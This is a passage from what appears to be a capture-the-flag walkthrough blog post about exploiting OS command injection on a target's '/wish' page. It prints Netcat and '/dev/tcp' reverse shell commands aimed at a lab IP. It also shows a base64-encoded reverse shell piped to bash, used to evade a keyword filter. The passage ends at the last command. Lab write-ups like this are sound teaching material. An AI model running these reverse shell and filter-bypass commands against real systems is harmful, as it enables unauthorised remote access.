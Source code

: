 ```
id
```

![](https://i0.wp.com/1.bp.blogspot.com/-M3UlXgMeoak/Xd6JBQufv8I/AAAAAAAAho8/6fOhuKztT2kPwWvgAVfYVLgiy7ddRTMzwCLcBGAsYHQ/s1600/12.png?w=687&ssl=1)

So the “id” command is executed successfully. It means we were right before. This is OS command injection and we can take advantage of this vulnerability to get a shell using Netcat.

Let’s do it!

![](https://i0.wp.com/1.bp.blogspot.com/-LmclBIk1sSc/Xd6JB1bK9CI/AAAAAAAAhpE/ZRE1WOGWSo0jq9MoNwI-F7vVQ83altWLwCLcBGAsYHQ/s1600/13.png?w=687&ssl=1)

### **Exploitation**

We started a Netcat listener on our Kali machine. Then we tried to invoke the Netcat shell from the Command Injection that we just found.

```
nc -nlvp 1234  
nc -e /bin/sh 192.168.43.249 1234
```

![](https://i0.wp.com/1.bp.blogspot.com/-Tq0VgVzEIc8/Xd6JBqgJvRI/AAAAAAAAhpA/rPRRTP4bthcXHvsiXaZPtIeC8b4UkmwCwCLcBGAsYHQ/s1600/14.png?w=687&ssl=1)

It gives a message: Wrong choice of words 

So after trying a lot of commands, we can conclude that some of the symbols are characters are restricted. if those characters are present in the command then the command is not going to be executed.

![](https://i1.wp.com/1.bp.blogspot.com/-Wh_kvXPQEvg/Xd6JCcprrMI/AAAAAAAAhpI/mmWRmQVyngc-Sv_LfSslLP3kpf_8IzyWACLcBGAsYHQ/s1600/15.png?w=687&ssl=1)

So after thinking a lot, we came up with a solution what if encrypt the whole command in base64 format because commands like “echo”,” base64 -d” and “bash” are working.

The website used to encrypt: https://ift.tt/2OPZVOP

```
nc -e /bin/sh 192.168.43.249 1234
```

Encoded command: bmMgLWUgL2Jpbi9zaCAxOTIuMTY4LjQzLjI0OSAxMjM0

So now we will use pipe (|) operator to make our work done!

After experimenting a lot with /wish page we came up with this command:

```
echo bmMgLWUgL2Jpbi9zaCAxOTIuMTY4LjQzLjI0OSAxMjM0 | base64 -d | bash
```

But our luck is not good, this doesn’t work. It gives no error but this command doesn’t give us the shell access either. Now it’s time to search for some other forms of commands to get a shell and we will try this:

```
bash -i >& /dev/tcp/192.168.43.249/8080 0>&1
```
